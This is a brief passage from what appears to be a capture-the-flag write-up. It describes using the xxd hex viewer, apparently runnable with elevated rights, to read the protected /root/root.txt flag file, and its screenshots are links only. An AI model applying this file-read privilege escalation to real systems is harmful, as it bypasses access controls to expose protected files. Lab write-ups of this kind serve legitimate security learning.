

Since `xxd` is used to view the hex contents of files, I'm going to run it directly on `/root/root.txt` to see what we get:



[*← Back to index*](../../README.md)